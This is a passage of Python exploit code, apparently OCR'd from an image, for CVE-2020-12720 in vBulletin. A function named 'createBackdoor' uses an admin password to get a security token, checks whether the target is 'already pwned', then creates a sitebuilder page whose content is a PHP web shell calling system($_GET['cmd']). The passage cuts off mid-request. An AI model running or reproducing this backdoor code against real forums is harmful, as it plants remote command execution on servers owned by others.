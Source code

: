     def createBackdoor(sURL, sADMINPASS, sUserid='1'):
        ## Activating Sitebuilder
        sPath = 'ajax/activate-sitebuilder'
        lData = {'pageid':'1', 'nodeid':'0','userid':'1','loadMenu':'false', 'isAjaxTemplateRender':'true', 'isAjaxTemplateRenderWithData':'true','securitytoken':'1589477194-0e3085507fb50fc1631610a28e045c5fa71a2a12'}
        oResponse = getData(sURL + sPath, lData)
        if not oResponse.code == 200:
            print('[-] Error activating sitebuilder')
            sys.exit(1)

        ## Confirming the password, getting new securitytoken
        sPath = 'auth/ajax-login'
        lData = {'logintype':'cplogin','userid':sUserid,'password':sADMINPASS,'securitytoken':'1589477194-0e3085507fb50fc1631610a28e045c5fa71a2a12'}
        oResponse = getData(sURL + sPath, lData)
        sResponse = oResponse.read().decode()
        if 'lostpw' in sResponse:
            print('[-] Error: authentication for userid ' + sUserid + ' failed')
            sys.exit(1)
        sToken = sResponse.split(',')[1].split(':')[1].replace('"','').replace('}','')
        print('[+] Got token: '+sToken)

        ## cpsession is needed, use this for extra verification
        #for cookie in cj: print(cookie.name, cookie.value, cookie.domain) #etc etc

        ## First see if our backdoor does not already exists
        sPath = 'ajax/render/admin_sbpanel_pagelist_content_wrapper'
        lData = {'isAjaxTemplateRenderWithData':'true','securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        sResponse = oResponse.read().decode()
        if 'cve-2020-12720' in sResponse:
            sPageName = 'cve-2020-12720-' + sResponse.split('/cve-2020-12720-')[1].split(')')[0]
            print('[+] This machine was already pwned, using "' + sPageName + '" for your command')
            return sPageName
        

        ## Create a new empty page
        sPath = 'ajax/api/widget/saveNewWidgetInstance'
        lData = {'containerinstanceid':'0','widgetid':'23','pagetemplateid':'','securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        sResponse = oResponse.read().decode()
        sWidgetInstanceID = sResponse.split(',')[0].split(':')[1].replace('}','')
        sPageTemplateID = sResponse.split(',')[1].split(':')[1].replace('}','')
        print('[+] Got WidgetInstanceID: '+sWidgetInstanceID+' and PageTemplateID: '+sPageTemplateID)

        ## Now submitting the page content
        sPageName = 'cve-2020-12720-'+randomString()
        sPath = 'ajax/api/widget/saveAdminConfig'
        lData = {'widgetid':'23',
                 'pagetemplateid':sPageTemplateID,
                 'widgetinstanceid':sWidgetInstanceID,
                 'data[widget_type]':'',
                 'data[title]':sPageName,
                 'data[show_at_breakpoints][desktop]':'1',
                 'data[show_at_breakpoints][small]':'1',
                 'data[show_at_breakpoints][xsmall]':'1',
                 'data[hide_title]':'0',
                 'data[module_viewpermissions][key]':'show_all',
                 'data[code]':"echo('###SHELLRESULT###');system($_GET['cmd']);echo('###SHELLRESULT###');",
